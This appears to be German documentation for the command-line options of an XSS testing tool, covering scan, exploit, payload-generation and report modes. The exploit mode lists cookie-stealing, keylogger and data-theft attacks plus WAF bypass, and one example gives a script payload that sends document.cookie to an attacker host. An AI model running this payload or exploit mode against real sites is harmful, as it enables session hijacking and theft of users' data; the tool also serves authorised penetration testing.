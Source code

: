 # Befehlszeilenparameter

Das XSS Hunter Pro Framework bietet eine umfangreiche Kommandozeilenschnittstelle mit verschiedenen Modi und Optionen. Hier ist eine vollständige Dokumentation aller verfügbaren Befehlszeilenparameter.

## Allgemeine Parameter

Diese Parameter können in allen Modi verwendet werden:

| Parameter | Beschreibung | Standard |
|-----------|--------------|----------|
| `--config` | Pfad zur Konfigurationsdatei | `config.json` |
| `--debug` | Debug-Modus aktivieren | `false` |
| `--log-level` | Log-Level (DEBUG, INFO, WARNING, ERROR, CRITICAL) | `INFO` |
| `--log-file` | Pfad zur Log-Datei | `xsshunterpro.log` |
| `--output`, `-o` | Pfad zur Ausgabedatei | - |

## Scan-Modus

Der Scan-Modus wird verwendet, um Websites nach XSS-Schwachstellen zu scannen:

```bash
python main.py scan --url https://example.com --depth 3
```

### Parameter für den Scan-Modus

| Parameter | Beschreibung | Standard | Erforderlich |
|-----------|--------------|----------|--------------|
| `--url`, `-u` | Ziel-URL | - | Ja |
| `--depth`, `-d` | Scan-Tiefe | `3` | Nein |
| `--timeout`, `-t` | Timeout in Sekunden | `30` | Nein |
| `--user-agent` | User-Agent | - | Nein |
| `--cookies` | Cookies (Format: name1=value1;name2=value2) | - | Nein |
| `--headers` | HTTP-Header (Format: name1:value1;name2:value2) | - | Nein |
| `--proxy` | Proxy-URL | - | Nein |
| `--threads` | Anzahl der Threads | `10` | Nein |
| `--report` | Bericht erstellen | - | Nein |
| `--report-format` | Format des Berichts (html, json, markdown) | `html` | Nein |

## Exploit-Modus

Der Exploit-Modus wird verwendet, um bekannte XSS-Schwachstellen auszunutzen:

```bash
python main.py exploit --url https://example.com/search --param q --exploit-type data_theft
```

### Parameter für den Exploit-Modus

| Parameter | Beschreibung | Standard | Erforderlich |
|-----------|--------------|----------|--------------|
| `--url`, `-u` | Ziel-URL | - | Ja |
| `--param`, `-p` | Zu testender Parameter | - | Ja |
| `--exploit-type` | Typ des Exploits (data_theft, keylogger, dom_manipulation, cookie_stealing) | - | Ja |
| `--payload` | Benutzerdefinierter Payload | - | Nein |
| `--user-agent` | User-Agent | - | Nein |
| `--cookies` | Cookies (Format: name1=value1;name2=value2) | - | Nein |
| `--headers` | HTTP-Header (Format: name1:value1;name2:value2) | - | Nein |
| `--proxy` | Proxy-URL | - | Nein |
| `--timeout`, `-t` | Timeout in Sekunden | `30` | Nein |
| `--screenshot`, `-s` | Screenshot erstellen | `false` | Nein |
| `--start-callback` | Callback-Server starten | `false` | Nein |

## Payload-Modus

Der Payload-Modus wird verwendet, um optimierte XSS-Payloads zu generieren:

```bash
python main.py payload --payload-context javascript --use-ml
```

### Parameter für den Payload-Modus

| Parameter | Beschreibung | Standard | Erforderlich |
|-----------|--------------|----------|--------------|
| `--payload-context` | Kontext für die Payload-Generierung (html, javascript, attribute, url, css) | `html` | Nein |
| `--use-ml` | ML-basierte Payload-Optimierung verwenden | `false` | Nein |
| `--custom-template` | Benutzerdefinierte Payload-Vorlage | - | Nein |
| `--bypass-waf` | WAF-Bypass-Techniken verwenden | `false` | Nein |

## Report-Modus

Der Report-Modus wird verwendet, um Berichte aus gefundenen Schwachstellen zu erstellen:

```bash
python main.py report --report-file vulnerabilities.json --report-format html
```

### Parameter für den Report-Modus

| Parameter | Beschreibung | Standard | Erforderlich |
|-----------|--------------|----------|--------------|
| `--report-file` | Pfad zur Vulnerabilities-Datei | - | Ja |
| `--report-format` | Format des Berichts (html, json, markdown) | `html` | Nein |
| `--no-screenshots` | Keine Screenshots einbeziehen | `false` | Nein |
| `--no-payloads` | Keine Payloads einbeziehen | `false` | Nein |
| `--no-request-response` | Keine Request/Response-Daten einbeziehen | `false` | Nein |

## Beispiele

### Scan einer Website mit Authentifizierung

```bash
python main.py scan --url https://example.com --depth 3 --cookies "session=abc123" --user-agent "Mozilla/5.0" --report scan_report.html
```

### Exploitation einer Schwachstelle mit benutzerdefiniertem Payload

```bash
python main.py exploit --url https://example.com/search --param q --exploit-type data_theft --payload "<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>" --screenshot
```

### Generierung von WAF-Bypass-Payloads

```bash
python main.py payload --payload-context javascript --use-ml --bypass-waf --output payloads.json
```

### Erstellung eines HTML-Berichts ohne Screenshots

```bash
python main.py report --report-file vulnerabilities.json --report-format html --no-screenshots --output final_report.html
```
